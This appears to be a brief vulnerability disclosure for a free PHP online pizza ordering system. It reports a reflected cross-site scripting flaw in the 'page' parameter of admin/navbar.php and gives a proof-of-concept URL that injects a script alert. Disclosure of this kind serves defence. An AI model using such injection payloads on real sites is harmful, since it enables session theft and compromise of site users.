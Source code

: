 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：

![image-20230223212055565](C:\markdown\images\image-20230223212055565.png)

exp

```
http://192.168.31.50/php-opos/admin/navbar.php?page=%27%3E%3C/script%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

![image-20230223212008301](C:\markdown\images\image-20230223212008301.png)